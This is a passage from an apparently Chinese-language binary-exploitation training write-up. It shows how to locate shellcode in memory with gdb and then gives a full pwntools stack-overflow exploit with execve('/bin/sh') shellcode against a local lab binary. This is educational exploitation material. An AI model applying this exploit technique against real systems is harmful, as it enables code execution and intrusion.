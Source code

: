 这里在 shellcode 前加上“0xdeadbeef”，是为了之后在调试时更方便地找到首地址。`raw_input()` 要求输入值，可以使程序在运行时终止，相当于一个断点。

运行 test.py，会得到该程序的 PID，用 gdb 的 attach 命令执行它。

![](/pics/BIN集训/PWN/三/9.png)

在运行程序处随便输入值，然后在 gdb 中用 finish 命令使程序执行到 `gets()` 函数结束，再用 searchmem 命令查找“0xdeadbeef”的地址，即得到 shellcode 的首地址。

![](/pics/BIN集训/PWN/三/10.png)

最后的 exp 如下：

```python
# 7-11.py
from pwn import *
p = process('./7-11')
shellcode="\x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0\x0b\xcd\x80"
addr=p32(0xffffcfa8)
offset=116
# payload=shellcode+(offset-len(shellcode))*'A'+addr
payload=shellcode.ljust(offset,'A')+addr
p.sendline(payload)
p.interactive()
```

